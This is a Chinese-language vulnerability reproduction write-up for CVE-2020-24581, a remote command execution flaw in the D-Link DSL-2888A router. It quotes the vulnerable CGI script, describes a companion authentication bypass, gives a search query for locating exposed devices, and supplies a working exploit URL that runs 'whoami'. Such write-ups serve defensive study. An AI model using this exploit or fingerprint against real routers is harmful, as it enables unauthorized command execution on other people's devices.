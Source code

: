 # D-Link DSL-28881A 远程命令执行 CVE-2020-24581

## 漏洞描述

D-Link DSL-2888A AU_2.31_V1.1.47ae55之前版本存在安全漏洞，该漏洞源于包含一个execute cmd.cgi特性(不能通过web用户界面访问)，该特性允许经过身份验证的用户执行操作系统命令。
在该版本固件中同时存在着一个不安全认证漏洞（CVE-2020-24580），在登录界面输入任意密码就可以成功访问路由器界面。

## 漏洞影响

```
D-Link DSL-2888A
```

## 网络测绘

```
body="DSL-2888A"
```

## 漏洞复现

登录页面输入任意密码建立连接

![](./images/202202162221283.png)

跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

漏洞出现在 **execute_cmd.cgi** 文件中

```bash
#!/bin/sh
. /usr/syscfg/api_log.sh

cmd=`echo ${QUERY_STRING} | cut -d = -f 3`
cmd=`echo ${cmd} | tr "%20" " "`

result=`${cmd}`
TGP_Log ${TGP_LOG_WARNING} "cmd=${cmd}, result=${result}"

echo "Content-type: text/html"
echo ""
echo -n ${result}
```

这里取出 **${QUERY_STRING}** 中的第二个参数值，然后去除空格命令执行

在这个过程中并没有过滤，看一下参数从哪来的

文件 **/www/js/ajax.js**

```javascript
get : function(_dataType)
	{
		var _url = this.url;
		if(_url.indexOf('?') == -1)
			_url += '?timestamp=' + new Date().getTime();
		else
			_url += "&timestamp=" + new Date().getTime();
		if(this.queryString.length > 0)
			_url += "&" + this.queryString;

		this.xmlHttp.open("GET", _url, true);
		/* will make IE11 fail.
		if(!document.all){
			if(_dataType == "xml")
				this.xmlHttp.overrideMimeType("text/xml;charset=utf8");
			else
				this.xmlHttp.overrideMimeType("text/html;charset=gb2312");//设定以gb2312编码识别数据  
		}
		*/
		this.xmlHttp.send(null);
	},
```

看一下过程

```shell
┌──(root)-[/tmp]
└─# echo "timestamp=1589333279490&cmd=whoami" |  cut -d = -f 3
whoami
```

这里取第二个参数 **whoami** 然后就没有过滤的执行了

所以EXP为:

```plain
http://xxx.xxx.xxx.xxx/cgi-bin/execute_cmd.cgi?timestamp=test&cmd=whoami
```

![](./images/202202162221670.png)